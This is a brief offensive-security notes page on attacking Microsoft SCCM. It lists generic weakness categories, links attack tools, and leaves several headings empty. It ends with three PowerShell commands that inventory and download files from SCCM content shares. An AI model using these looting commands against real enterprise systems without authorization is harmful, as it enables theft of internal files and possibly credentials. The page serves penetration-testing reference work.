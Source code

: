 ```yaml
---
description: Microsoft SCCM (System Center Configuration Manager)
---
```


# 🟠 SCCM

While SCCM is a powerful tool for managing and deploying software in enterprise environments, it is not without its flaws. Here, I will explore five relevant vulnerabilities that could potentially compromise the security of SCCM.&#x20;

By understanding these weaknesses, we can work towards enhancing the overall security of our systems.

* Unauthorized Access through Weak Authentication Mechanisms
* Insecure Communication Channels
* Lack of Patch Management
* Insufficient Privilege Management
* Weak Encryption of Sensitive Data

### Tools to Attack SCCM

* [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM)
* [MalSCCM](https://github.com/nettitude/MalSCCM)
* ## [SCCMHunter](https://github.com/garrettfoster13/sccmhunter#sccmhunter) <a href="#user-content-sccmhunter" id="user-content-sccmhunter"></a>

### SCCM Deployment

### Network Access Accounts

### SCCM Shares

```powershell
Invoke-CMLootInventory -SCCMHost sccm01.domain.local -Outfile sccmfiles.txt
```

{% code overflow="wrap" %}
```powershell
Invoke-CMLootDownload -SingleFile \\sccm\SCCMContentLib$\DataLib\SC100001.1\x86\MigApp.xml
```
{% endcode %}

```powershell
Invoke-CMLootDownload -InventoryFile .\sccmfiles.txt -Extension msi
```
